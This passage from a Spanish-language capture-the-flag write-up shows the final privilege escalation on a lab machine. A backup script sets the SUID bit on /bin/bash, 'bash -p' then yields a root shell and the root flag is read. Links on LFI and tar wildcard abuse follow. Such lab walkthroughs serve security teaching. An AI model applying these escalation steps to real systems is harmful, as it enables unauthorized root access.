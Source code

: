 Revisemos los permisos de la **Bash**:
```bash
leopoldo@shined:~/Desktop/scripts$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```
Aún no tiene **permiso SUID**.

Ejecutemos **backup.sh**:
```bash
leopoldo@shined:~/Desktop/scripts$ /tmp/./backup.sh 
tar (child): /home/leopoldo/Desktop/scripts/backup.tgz: Cannot open: Permission denied
tar (child): Error is not recoverable: exiting now
chmod: changing permissions of '/bin/bash': Operation not permitted
tar: /home/leopoldo/Desktop/scripts/backup.tgz: Cannot write: Broken pipe
tar: Child returned status 2
tar: Error is not recoverable: exiting now
```

Y revisemos los permisos de la **Bash**:
```bash
leopoldo@shined:~/Desktop/scripts$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Usemos la **Bash** con privilegios:
```bash
leopoldo@shined:~/Desktop/scripts$ bash -p
bash-5.1# whoami
root
```
Ahora somos **Root**.

Ya solo busca la flag del **Root**:
```bash
bash-5.1# cd /root
bash-5.1# ls
root.txt  snap
bash-5.1# cat root.txt
...
```
Y con esto concluimos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=LFI#basic-lfi-and-bypasses
* https://brightsec.com/blog/local-file-inclusion-lfi/
* https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html?highlight=tar#tar
* https://www-hackingarticles-in.translate.goog/exploiting-wildcard-for-privilege-escalation/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc
* https://gtfobins.github.io/gtfobins/tar/
* https://github.com/DominicBreuker/pspy
